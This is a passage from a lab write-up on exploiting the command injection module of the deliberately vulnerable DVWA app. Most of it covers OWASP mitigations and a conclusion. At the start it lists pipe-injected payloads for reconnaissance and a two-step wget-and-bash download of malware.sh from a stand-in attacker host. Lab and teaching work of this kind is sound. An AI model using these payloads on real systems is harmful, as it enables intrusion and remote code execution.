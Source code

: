 *   **Directory Traversal/Listing:** `127.0.0.1 | ls -la /var/www/html`
*   **Network Reconnaissance:** `127.0.0.1 | ip addr` / `ifconfig`
*   **Process Enumeration:** `127.0.0.1 | ps aux`
*   **Remote File Download:** `127.0.0.1 | wget http://attacker-payload-server.example.com/malware.sh -O /tmp/m.sh` (Requires `wget` utility)
*   **Downloaded Payload Execution:** `127.0.0.1 | bash /tmp/m.sh` (Requires downloaded file and `bash`)

These examples illustrate the potential escalation path from initial injection to deeper system interaction.

## Mitigation Strategies (Aligned with OWASP)

Preventing command injection requires careful handling of external input when interacting with the OS. Based on this analysis and general best practices (including OWASP recommendations):

1.  **Primary Defense: Avoid Calling OS Commands:** The most effective defense is to avoid invoking OS commands based on user input altogether. Utilize internal language APIs or libraries for required functionality (e.g., use PHP network functions instead of calling the `ping` binary).
2.  **Use Safe APIs:** If interaction with the OS is unavoidable, use structured APIs that do not invoke an external shell interpreter. If using functions like PHP's `exec` or `shell_exec` is necessary, ensure input is passed safely as arguments to commands.
3.  **Input Validation (Allow-listing):** Implement strict input validation using an "allow-list" approach. Define exactly what constitutes valid input (e.g., a valid IPv4/IPv6 format for the ping example) and reject any input that does not conform. Blacklisting, as demonstrated by DVWA's Medium/High levels, is often insufficient.
4.  **Least Privilege Execution:** Configure the web server and application components to run with the minimum level of OS privileges necessary for their operation. While the test commands ran as `www-data` (not root), this user could still access sensitive application data. Reducing privileges limits the potential impact if an injection vulnerability is exploited.

## Conclusion

This analysis of DVWA's command injection module clearly demonstrated the risks associated with improperly handling user input when executing OS commands. The direct concatenation of user input into shell commands at the Low level provided trivial exploitation. While the Medium and High levels attempted mitigation via blacklisting, these filters proved inadequate and were bypassed using alternative shell metacharacters or by exploiting specific filter implementation details (like the pipe-space combination).

The exercise reinforces the importance of avoiding direct OS command execution where possible and highlights the superiority of allow-list input validation over blacklisting. Securely handling external input and adhering to the principle of least privilege are critical defenses against this high-impact vulnerability.

## Tools Utilized

*   Kali Linux Virtual Machine (VMware)
*   Damn Vulnerable Web Application (DVWA) via Docker
*   Web Browser (Firefox)

## Disclaimer

